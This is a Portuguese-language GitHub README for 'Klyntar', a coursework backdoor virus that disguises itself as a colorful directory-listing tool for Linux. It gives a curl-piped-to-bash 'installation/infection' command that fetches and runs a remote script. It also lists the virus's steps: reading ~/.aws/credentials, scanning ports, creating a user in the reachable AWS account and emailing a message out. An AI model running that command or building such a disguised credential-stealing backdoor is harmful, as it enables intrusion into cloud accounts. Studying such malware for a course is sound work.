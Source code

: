 <!-- PROJECT LOGO -->

<p align="center">
    <img src="doc/images/venom_image.png" alt="Logo" width="600" height="600">
  <p align="center">
    Trabalho da disciplina de Cybersecurity para criação de um vírus que explora vulnerabilidade de credenciais mal configuradas em servidores AWS EC2. 
  </p>
</p>

## O desafio! 

Elaborar um vírus da categoria back door que possibilite a execução remota de ações no sistema operacional hospedeiro (Linux).

## O disfarce

O programa se disfarça como uma simples ferramenta de linha de comando para mostrar os diretórios de forma colorida no terminal :smile:.

## Porque Klyntar?

O simbionte Venom personagem da Marvel nem sempre foi o inimigo do Homem-Aranha ou um item de seu guarda-roupa. Sua origem está associada a um longínquo planeta na galáxia de Andrômeda, chamado *Klyntar*. Venom é um membro de uma raça alienígena de simbiontes que recebem o mesmo nome de seu planeta natal.

## Instalação/Infecção

``` bash
curl -L https://raw.githubusercontent.com/gabriel-dantas98/klyntar/master/install.sh | bash
```

## Por trás dos panos 

 - Verifica se existe ~/.aws/credentials;
 - Scaneia todas as portas que estão abertas no host;
 - Cria uma usuário na conta que a instância tem permissão;
 - Cria uma mensagem e envia por e-mail;
